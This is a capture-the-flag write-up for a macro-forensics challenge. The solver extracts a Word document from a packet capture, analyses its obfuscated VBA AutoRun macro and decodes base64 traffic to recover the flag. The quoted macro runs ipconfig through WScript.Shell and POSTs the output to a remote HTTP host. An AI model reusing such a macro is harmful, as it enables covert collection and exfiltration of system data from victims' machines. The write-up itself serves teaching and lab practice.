


#  Spookier Macro

**Author** : Marko Gordic  
**Difficulty** : <font color='green'>Easy</font>  
**Description**: As the trusted ally of CyberHero, you're called upon once more as the spooky scary skeletons seek their revenge, launching another sinister attack against our cyber champion. Your mission is to delve deep into the system, thwarting their vengeful plans by identifying and neutralizing the malicious macros they've unleashed. It's a race against time to safeguard the cyber realm from this skeletal onslaught. Your vigilance and skills are the last line of defense in this eerie encore.  

## Solution

Inside the zip file, there is a file called `capture.pcapng`. This is a packet capture file. We can open it with Wireshark. User need to extract the file from the pcapng file. The file is a word document.



Now, using wireshark, we can extract the file from the pcapng file.



When we open the file, we can open macros and see the following code inside AutoRun macro:

```vba
d3E4F = ActiveDocument.Variables("secret").Value
g5H6I = f9G8H(d3E4F)
j7K8L = i7J6K(g5H6I)
m9N0O = StrReverse(l5M4N(j7K8L))

Set e1F2G = CreateObject("WScript.Shell")
Set k5L6M = e1F2G.Exec("ipconfig")
h3I4J = k5L6M.StdOut.ReadAll

y7Z8A = "data=" & o3P2Q(h3I4J)
```

We can see that the macro is reading the value of the `secret` variable, then it is passing it to the `f9G8H` function, then to the `i7J6K` function, then to the `l5M4N` function and finally to the `StrReverse` function. The result is then stored in the `m9N0O` variable. Then, the `ipconfig` command is executed and the result is stored in the `h3I4J` variable. The `o3P2Q` function is then called with the `h3I4J` variable as an argument and the result is stored in the `y7Z8A` variable.

We can MsgBox the `m9N0O` to see the result of the `StrReverse` function.

```vba
MsgBox m9N0O
```

When we run the macro, we get the following message:

```plaintext
Part 1: SCC{5p00ky_5c4ry_5k3l370n5_
```

Now, we need to see this part of the code:

```vba
y7Z8A = "data=" & o3P2Q(h3I4J)

p1Q2R = 0
Set s3T4U = CreateObject("MSXML2.ServerXMLHTTP")
v5W6X = "http://192.168.31.129/secret"
s3T4U.Open "POST", v5W6X, False
s3T4U.setRequestHeader "Authorization", "Bearer " & b9C0D

If p1Q2R = 0 Then
    s3T4U.Send (y7Z8A)
    If s3T4U.Status = 200 Then
        MsgBox "Success"
    Else
        MsgBox "Error: " & s3T4U.Status & " - " & s3T4U.StatusText
    End If
End If  
```

If we see the traffic in Wireshark, we can see that the `ipconfig` command is being sent to the server. We can decode the `data` parameter from the `POST` request and we get the following message:

```plaintext

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::82a6:2955:8aa1:b5bd%5
   IPv4 Address. . . . . . . . . . . : 192.168.31.128
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.31.2

Ethernet adapter SpookyScarySkeletons:
   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::a123:b456:c789:d012%16
   IPv4 Address. . . . . . . . . . . : 192.168.99.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : UGFydCAyOiBfY3I0Y2sxbjlfMW43MF81eTU3M201fQ==
```

We can see that the `Default Gateway` is encoded in base64. We can decode it and we get the following message:

```plaintext
Part 2: cr4ck1n9_1n70_5y573m5}
```